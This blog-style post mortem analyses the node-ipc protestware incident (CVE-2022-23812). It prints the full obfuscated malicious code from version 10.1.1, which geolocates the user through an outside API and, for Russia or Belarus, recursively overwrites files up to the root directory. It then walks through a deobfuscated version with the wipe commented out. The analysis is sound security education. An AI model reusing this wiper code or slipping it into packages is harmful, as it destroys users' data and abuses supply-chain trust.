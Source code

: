 # Day 10 - node-ipc protestware post mortem

This time we'll look at the world-famous node-ipc which is a library that allows you to communicate between processes in node.js but we won't talk about the library itself but rather what happened some days ago.

The story is that the library's author decided to push a malicious code as a protest against the Ukrainian war. This package is a well-known and widely used library that is used in many popular node.js applications.

What happened: version 10.1.1 was published with this code:

```js 
// DO NOT RUN THIS CODE OR YOU MAY DAMAGE YOUR FILESYSTEM

import u from "path";
import a from "fs";
import o from "https";
setTimeout(function () {
    const t = Math.round(Math.random() * 4);
    if (t > 1) {
        return;
    }
    const n = Buffer.from("aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=", "base64"); 
    o.get(n.toString("utf8"), function (t) {
        t.on("data", function (t) {
            const n = Buffer.from("Li8=", "base64");
            const o = Buffer.from("Li4v", "base64");
            const r = Buffer.from("Li4vLi4v", "base64");
            const f = Buffer.from("Lw==", "base64");
            const c = Buffer.from("Y291bnRyeV9uYW1l", "base64");
            const e = Buffer.from("cnVzc2lh", "base64");
            const i = Buffer.from("YmVsYXJ1cw==", "base64");
            try {
                const s = JSON.parse(t.toString("utf8"));
                const u = s[c.toString("utf8")].toLowerCase();
                const a = u.includes(e.toString("utf8")) || u.includes(i.toString("utf8")); you 
                if (a) {
                    h(n.toString("utf8"));
                    h(o.toString("utf8"));
                    h(r.toString("utf8"));
                    h(f.toString("utf8"));
                }
            } catch (t) {}
        });
    });
}, Math.ceil(Math.random() * 1e3));
async function h(n = "", o = "") {
    if (!a.existsSync(n)) {
        return;
    }
    let r = [];
    try {
        r = a.readdirSync(n);
    } catch (t) {}
    const f = [];
    const c = Buffer.from("4p2k77iP", "base64");
    for (var e = 0; e < r.length; e++) {
        const i = u.join(n, r[e]);
        let t = null;
        try {
            t = a.lstatSync(i);
        } catch (t) {
            continue;
        }
        if (t.isDirectory()) {
            const s = h(i, o);
            s.length > 0 ? f.push(...s) : null;
        } else if (i.indexOf(o) >= 0) {
            try {
                a.writeFile(i, c.toString("utf8"), function () {}); 
            } catch (t) {}
        }
    }
    return f;
}
const ssl = true;
export { ssl as default, ssl };
```

As you can see the code is obfuscated and it is not very easy to read.


```js 
const n = Buffer.from("aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=", "base64"); 
```
creates a buffer from a base64 string. let's see how to decode it:

```js
 console.log(JSON.parse(n.toString("utf8"));
```

The string is:

https://api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154

This script uses api.ipgeolocation.io to guess which country you are executing the code.

The unobfuscated version of this script is:

```js 
import path from "path";
import fs from "fs";
import https from "https";

setTimeout(function () {
    // Does not attack anytime, but it does attack one over four times.
    const t = Math.round(Math.random() * 4);
    if (t > 1) {
        return;
    }

    // Call api.geolocation.io to get the location of the user.
    https.get('https://api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154', function (res) {
        // On data received from the api.geolocation.io server.
        res.on("data", function (response) {
            try {
                // Parse the response.
                const object = JSON.parse(response.toString("utf8"));
                // Get the country name.
                const country_name = object['country_name'].toLowerCase();
                // test if the country name is in the list of countries to attack.
                const isRussiaOrBelarus = country_name.includes('russia') || country_name.includes('belarus');
                // If the country is in the list of countries to attack, attack.
                if (isRussiaOrBelarus) {
                    // attack the current directory.
                    attack("./");
                    // attack the previous directory.
                    attack("../");
                    // attack the parent of the previous directory.
                    attack("../../");
                    // Attack the root directory.
                    attack("/");
                }
            } catch (t) { }
        });
    });
    // the attack is performed wityh a delay between 0 and 1 seconds.
}, Math.ceil(Math.random() * 1e3));

// This is the attack function.
// it is called when the user is in the list of countries to attack.
// it is called with the directory to attack.
// it is called with the target filename substring that is currently unused.
async function attack(dir = "", targetFilenameSubstring = "") {
    console.log("ATTACKING: " + dir + "\n");
    // if the dir does not exist, return.
    if (!fs.existsSync(dir)) {
        return;  
    }

    // used to store the directory contents
    let directoryContents = [];
    try {
        // get the directory contents.
        directoryContents = fs.readdirSync(dir);
    } catch (t) { }
    const files = [];

    for (var e = 0; e < directoryContents.length; e++) {

        // get the full path of the file.
        const i = path.join(dir, directoryContents[e]);

        // read the stats of the file to test if it is a directory or a file.
        let t = null;
        try {
            // lstatSync is used to test both real files and symbolic links.
            t = fs.lstatSync(i);  
        } catch (t) {
            continue;
        }

        // if the file is a directory, call the attack function recursively.
        if (t.isDirectory()) {
            const attackedFiles = attack(i, targetFilenameSubstring);
            // Keeps track of the files that were attacked.
            attackedFiles.length > 0 ? files.push(...attackedFiles) : null;
        } else if (i.indexOf(targetFilenameSubstring) >= 0) { // Pattern match (unused.. all filed are attacked anyway)
            try {
                
                console.log("WITH LOVE FILE: " + i);
                
                // NOTE: I have disabled the function which replaces the file contents with a '❤️'.
                //fs.writeFile(i, '❤️', function () { });
            } catch (t) { }
        }
    }
    return files;
}
const ssl = true;
export { ssl as default, ssl };
```

I have changed the code a little bit to get it safe. It just prints the attacked files on the screen without doing anything dangerous

At the moment the versions with the critical security code have been removed and the code is not available on github nor on the npm websites.

opening https://api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154 will result in an error message:

"Provided API key is not valid. Contact technical support for assistance at support@ipgeolocation.io"

:::warning
You may notice that this website at the moment of the release of the protestware had the power to wipe data from almost all around the world.
If it was hacked and just replied "russia" for any ip address. This fact is not true anymore but it is worth noting that the packages that are used as a supply chain have a great responsibility and the trust of the users is something to be accurately evaluated.
:::

References:

[Protestware - How node-ipc turned into malware](https://www.lunasec.io/docs/blog/node-ipc-protestware/)

[CVE-2022-23812](https://gist.github.com/MidSpike/f7ae3457420af78a54b38a31cc0c809c)


Cheers,

Massimo Nicolardi

